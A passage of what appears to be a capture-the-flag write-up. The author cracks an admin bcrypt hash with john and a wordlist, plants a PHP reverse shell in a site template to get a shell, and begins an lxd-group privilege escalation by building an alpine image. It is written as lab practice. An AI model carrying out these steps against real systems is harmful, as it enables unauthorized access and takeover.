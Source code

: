i found the user `admin` with the pw hash.

```shell
hash: $2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

with john i got the password and was able to login to the admin panel.

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt dbhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
a*****34         (?)
1g 0:00:00:03 DONE (2022-12-02 03:56) 0.2958g/s 306.2p/s 306.2c/s 306.2C/s bobby..tyrone
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

![image](/images/Pasted image 20221202210953.png)

after trying to upload a shell i found the template page.

```shell
$ cp /usr/share/webshells/php/php-reverse-shell.php
```

instead of uploading a file i copied the kali php webshell into the index.php site and got a shell on my system.

![image](/images/Pasted image 20221202211309.png)

![image](/images/Pasted image 20221202211413.png)

i saw that i was member of the `lxd` group. so this was very much the possible attack vector.
i checked the image list and got one.

```shell
www-data@ubuntu:/$ lxc image list
+-------+--------------+--------+-------------+--------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC | DESCRIPTION |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------+--------+--------+------------------------------+
|       | a8258f4a885f | no     |             | x86_64 | 2.39MB | Oct 25, 2019 at 8:07pm (UTC) |
+-------+--------------+--------+-------------+--------+--------+------------------------------+

```

unfortunately i messed up and had to create another image on my system.

```shell
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
